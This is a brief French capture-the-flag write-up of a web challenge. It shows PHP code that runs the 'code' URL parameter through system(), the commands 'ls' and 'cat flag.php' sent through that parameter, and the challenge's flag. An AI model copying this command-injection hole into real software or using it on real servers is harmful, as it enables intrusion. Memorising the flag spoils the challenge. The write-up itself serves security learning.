




### Catégorie : Web

Tâche 1- Accéder à la page web 



Tâche 2 : Accéder au code source de la page 



Le code source de la page nous révèle un commentaire très interressant, le
```
<!-- <a href="?source=1">source</a> -->
```

Ainsi nous allons essayer d'accéder à cette page : 



```
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
```

```
/?code=ls
```



```
/?code=cat flag.php
```

Flag : 
```
FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}
```
